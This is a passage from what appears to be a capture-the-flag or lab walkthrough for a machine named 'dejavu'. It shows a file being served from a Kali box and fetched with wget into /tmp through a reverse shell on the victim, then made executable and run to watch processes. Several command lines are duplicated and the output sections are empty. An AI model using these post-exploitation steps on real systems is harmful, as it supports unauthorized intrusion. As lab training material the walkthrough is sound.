


5.2 Upload files to the Victime Machine
1. On your Kali Machine copy the “pspy32” file to “/var/www/html”.
$ cd /var/www/html/
kali@kali:/var/www/html$ cp ~/pspy32 .
kali@kali:/var/www/html$ cp ~/pspy32 .
2. Run a “python” server on your Kali Machine.
$ python -m SimpleHTTPServer
Output:
Serving HTTP on 0.0.0.0 port 8000 ...
3. On your “Victim Machine Reserve Shell” run this code to upload the file.
$ cd /tmp
www-data@dejavu:/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/S3cR3t/files$ cd /tmp
www-data@dejavu:/tmp$ wget http://192.168.12.10:8000/pspy32
www-data@dejavu:/var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats/S3cR3t/files$ cd /tmp
www-data@dejavu:/tmp$ wget http://192.168.12.10:8000/pspy32
Output:

4. “Victim Machine reserve shell” make the file “pspy32 ” executable and run it.
www-data@dejavu:/tmp$ chmod 777 pspy32
www-data@dejavu:/tmp$ ./pspy32
www-data@dejavu:/tmp$ ./pspy32
Output:

You can see “ftp” is running, there's an user called “robert” and you have to listen to the loopback interface.